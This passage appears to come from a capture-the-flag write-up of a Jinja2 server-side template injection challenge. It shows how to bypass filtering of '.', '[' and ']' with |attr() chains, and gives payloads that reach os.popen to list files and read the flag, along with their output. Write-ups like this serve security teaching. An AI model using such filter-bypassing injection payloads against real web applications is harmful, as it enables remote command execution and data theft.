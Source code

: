 ![result_ssti](images/3_3.png)

After few tries it seems like the characters `.` `[` and `]` are all filtered.

No worries, we can replace `.` with `|attr()` 
and `[]` with `|attr('__getitem__')(INDEX_or_KEY)`

Solution is quite easy, no need to go into details: we just have to look for the `os` module from `__globals__` and execute a shell command with `popen`

```python
{{config|attr('__class__')|attr('__init__')|attr('__globals__')|attr('__getitem__')('os')|attr('popen')('ls')|attr('read')()}}

app.py db_handler.py flag.txt patch.txt static templates uploads
```

```python
{{config|attr('__class__')|attr('__init__')|attr('__globals__')|attr('__getitem__')('os')|attr('popen')('cat flag*')|attr('read')()}}

shellmates{tR0ll1nG_@_mem3R_w1tH_4_w3ll_cr4fT3d_1nj3ct10n}
```
